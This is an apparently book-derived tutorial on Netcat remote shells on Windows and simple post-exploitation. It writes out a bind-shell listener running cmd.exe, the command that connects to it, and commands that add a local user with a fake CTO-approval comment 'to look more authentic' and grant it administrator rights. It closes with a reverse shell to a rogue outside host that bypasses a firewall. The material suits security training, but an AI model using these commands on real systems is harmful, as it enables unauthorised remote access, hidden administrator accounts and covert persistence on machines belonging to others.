 ## WINDOWS REMOTE SHELL (AND SIMPLE POST-EXPLOITATION HI-JINKS)
To begin with, we will spawn a remote shell on a Windows platform in the following steps:

## Preparing the listener
To prepare the listener, we will type the following command into the command line:
```
nc –Lp 31337 –vv –e cmd.exe
```
![image](https://user-images.githubusercontent.com/47218880/68691944-38f45480-053a-11ea-9266-2854afd17158.png)

In the preceding example, we are using the capital L switch (-L) to maintain a persistent connection with the listener. This is only a Windows feature, and while it is possible to craft a script to do something similar on the Linux side, we will not be covering that in now. Keep in mind that under typical use, when we disconnect from our client machine, the Netcat executable terminates. With the –L switch, the executable continues to listen for new connection attempts.

The –vv switch tells Netcat to be extra verbose with its output. For this particular feature, the –vv switch will not do much; however, in file transfers and other use cases it will, as we will see later.

The –e switch is where the magic happens. As noted in the Installation section, the –e switch indicates the DGAPING_SECURITY_HOLE feature, and allows us to do the devious things we are about to do. cmd.exe is the name of the executable for a command shell in Windows. Now, given the context and the steps explained previously, perhaps it is more understandable as to why Antivirus packages and firewalls flag Netcat as potentially malicious.

## Connecting to the target
Connecting to the target is as simple as our first exercises, and simply consists of the following string:
```
nc 192.168.0.10 31337
```

![image](https://user-images.githubusercontent.com/47218880/68692055-6ccf7a00-053a-11ea-922f-7244c47da0e9.png)


## Running a directory listing on the target
Once we have our Windows command shell launched, we can interact with it as if we were using Telnet or working on the console directly.

![image](https://user-images.githubusercontent.com/47218880/68692091-7f49b380-053a-11ea-9725-e5e6ac191784.png)

As shown in the preceding screenshot, we simply run a directory listing using the dir /w command. While out of scope for demonstrating the capabilities of Netcat, once you are at this step, you can interact with the remote shell in the same manner as if it were a local shell.

## Making a directory on the target
At this point, from an information security perspective, we have exploited the computer, and can begin post-exploitation work. From a legitimate operations perspective, you would be able to read log files and perform command-line troubleshooting. As a simple demonstration, make a directory using the md <directory name> command (I have called mine pwn3d), as shown in the following screenshot:

![image](https://user-images.githubusercontent.com/47218880/68692200-ad2ef800-053a-11ea-87d4-f3bbbe95d17b.png)

## Verifying directory was created
Once the md pwn3d command is issued, we can verify if the directory was created.

![image](https://user-images.githubusercontent.com/47218880/68692248-c3d54f00-053a-11ea-962a-dd5a8f83546b.png)

## Adding a local user and granting administrator rights
Just to finish the demonstration, I will add a local user to the system, and grant that account local administrator rights. Type in the following command:
```
net user /add bob Netcat /comment:"Approved through 12/31/2012 per CTO" /fullname:"Bob Wilson"

```

It will create the account with all of the most obvious fields completed. With the user account added, I simply type the command net localgroup Administrators bob /add to grant the newly created account administrator rights, as shown in the following screenshot:

![image](https://user-images.githubusercontent.com/47218880/68692301-e1a2b400-053a-11ea-8560-755ef9eda6ae.png)


Now, for completeness, I will spawn the Local Users and Groups container in Computer Management to verify if the account is created. Note that while the net user command is perfectly happy with just the username and password parameters, I would like to add the full name and comments to make the account look more authentic to the casual observer.

![image](https://user-images.githubusercontent.com/47218880/68692338-f1ba9380-053a-11ea-90cb-c1a273b7a724.png)


If I pull up the group membership for the Administrators group, I can see that our user account bob is now a member, as shown in the following screenshot:

![image](https://user-images.githubusercontent.com/47218880/68692373-00a14600-053b-11ea-84ad-8178c30d8d08.png)


Another very important item to note with Netcat is that it does not matter which side the listener is and which side the client is. Assume I was running a Netcat listener on port TCP/80 on a host (rogue.k0nsp1racy.com) outside of a firewall (as depicted in the screenshot that follows), and ran the following command from within the confines of my corporate network to launch a command shell:
```
nc rogue.k0nsp1racy.com 80 –e cmd.exe
```
Assuming that the firewall rules are permitted, I would be able to create an unencrypted tunnel between the two machines as follows:

![image](https://user-images.githubusercontent.com/47218880/68692427-157dd980-053b-11ea-9dc0-d45be2f805df.png)












